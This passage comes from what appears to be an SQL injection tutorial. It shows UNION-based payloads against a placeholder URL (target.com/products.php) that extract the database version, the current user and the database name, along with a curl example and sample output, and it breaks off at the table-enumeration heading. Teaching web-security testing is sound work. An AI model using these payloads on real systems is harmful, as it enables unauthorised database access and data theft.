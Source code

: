 #### Step 3: Extract Sensitive Data

After confirming the `UNION` query works, modify it to extract information such as usernames or database versions.

**Extract the Database Version:**

```sql
http://target.com/products.php?id=5' UNION SELECT 1, @@version, 3--
```

**Example Output:**

```bash
5.7.33-0ubuntu0.16.04.1
```

### **Fingerprint the Database**

Once SQL injection is confirmed, it is important to identify the type of database and its version, as different databases may require slightly different syntax for successful exploitation.

#### Common Payloads:

**Database Version:**

```sql
http://target.com/products.php?id=5' UNION SELECT @@version,2,3--
```

**Current User:**

```sql
http://target.com/products.php?id=5' UNION SELECT user(),2,3--
```

**Current Database:**

```sql
http://target.com/products.php?id=5' UNION SELECT database(),2,3--
```

#### Example Output (MySQL):

```bash
babel@target:/var/www$ curl http://target.com/products.php?id=5' UNION SELECT user(), database(), version()--
```

```bash
root@localhost | shop_db | 5.7.33-0ubuntu0.16.04.1
```

### **Enumerate Database Tables and Columns**

After confirming SQL injection and fingerprinting the database, the next step is to enumerate the tables and columns.

#### List All Tables

